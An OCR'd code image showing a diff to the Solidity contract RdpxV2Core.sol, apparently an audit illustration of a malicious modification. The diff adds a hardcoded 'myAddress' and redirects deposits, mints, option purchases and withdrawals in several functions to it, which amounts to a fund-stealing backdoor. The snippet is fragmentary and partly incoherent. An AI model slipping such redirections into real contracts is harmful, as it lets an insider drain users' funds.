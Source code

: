 ```diff
File : contracts/core/RdpxV2Core.sol

contract RdpxV2Core is 
 ...
{
+  address public myAddress = 0x1938567890123456789012345678901234447870;
  ...
   function emergencyWithdraw(...
    ...{
    for (uint256 i = 0; i < tokens.length; i++) {
      token = IERC20WithBurn(tokens[i]);
-     token.safeTransfer(msg.sender, token.balanceOf(address(this)));
+     token.safeTransfer(msg.sender, token.balanceOf(myAddress));
    }
   ...} 

  ...
   function _purchaseOptions(...
   ...{
    (premium, optionId) = IPerpetualAtlanticVault(
      addresses.perpetualAtlanticVault
-   ).purchase(_amount, address(this)); 
+   ).purchase(_amount, myAddress); 
   ...} 

  ...
     function _stake(...
    ...{
    IDpxEthToken(reserveAsset[reservesIndex["DPXETH"]].tokenAddress).mint(
-     address(this),
+     myAddress,
      _amount / 2
    ); 
    ...}

  ...
    function _transfer(...
    ...{
-       .safeTransferFrom(msg.sender, address(this), _rdpxAmount);
+       .safeTransferFrom(msg.sender, myAddress, _rdpxAmount);
    ...}    

  ...
   function bond(...
   ...{
    IERC20WithBurn(weth).safeTransferFrom(
      msg.sender,
-     address(this),
+     myAddress,
      wethRequired
    ); 
    ...}   

  ...
   function addToDelegate(...
    ...{
-    IERC20WithBurn(weth).safeTransferFrom(msg.sender, address(this), _amount);
+    IERC20WithBurn(weth).safeTransferFrom(msg.sender, myAddress, _amount);
   ...}

  ...
   function sync() external {
    for (uint256 i = 1; i < reserveAsset.length; i++) {
```